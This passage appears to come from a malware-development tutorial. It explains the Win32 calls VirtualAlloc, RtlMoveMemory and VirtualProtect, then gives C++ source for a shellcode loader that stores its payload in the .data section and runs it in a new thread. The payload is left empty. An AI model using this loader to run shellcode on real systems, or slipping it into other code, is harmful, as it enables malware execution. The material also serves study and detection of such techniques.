 Here's a breakdown of what each Win32 function does: 

1. `VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`

This function allocates memory in the virtual address space of the calling process. The first argument (0 in this case) specifies the starting address of the allocation (the function will choose a suitable address if this argument is 0). The second argument (payload_len) specifies the size of the allocation, in bytes. The third argument `(MEM_COMMIT | MEM_RESERVE)` specifies that the memory should be committed and reserved at the same time. The fourth argument `(PAGE_READWRITE)` specifies the initial memory protection for the allocated memory. This protection allows the memory to be read and written to.

The function returns a pointer to the allocated memory, or NULL if the allocation fails.

1. `RtlMoveMemory(exec_mem, payload, payload_len);`

This function is used to copy the contents of one block of memory to another. The first argument (exec_mem) is the destination memory address, the second argument (payload) is the source memory address, and the third argument (payload_len) is the number of bytes to copy.


1. `VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);`

This function changes the protection of the allocated memory so that it can be executed. The first argument (exec_mem) is the address of the memory block to change. The second argument (payload_len) is the size of the memory block. The third argument `(PAGE_EXECUTE_READ)` specifies the new memory protection, allowing the memory to be executed and read. The fourth argument (&oldprotect) is a pointer to a variable that receives the old protection value of the memory. This value can be used to restore the original protection later, if needed.

The function returns a non-zero value if it succeeds, or zero if it fails.


### Location - `.data`
The .data section is a portion of a program's memory that is allocated for storing initialized global and static variables. This section is typically located immediately after the program's code in memory.

The sample program is exactly the same, except the shellcode is initialised as the global variable:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Assign payload
unsigned char payload[] = { } // shell code.
unsigned int payload_len = sizeof(payload);

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;	
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	RtlMoveMemory(exec_mem, payload, payload_len);
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}
	return 0;
}
```
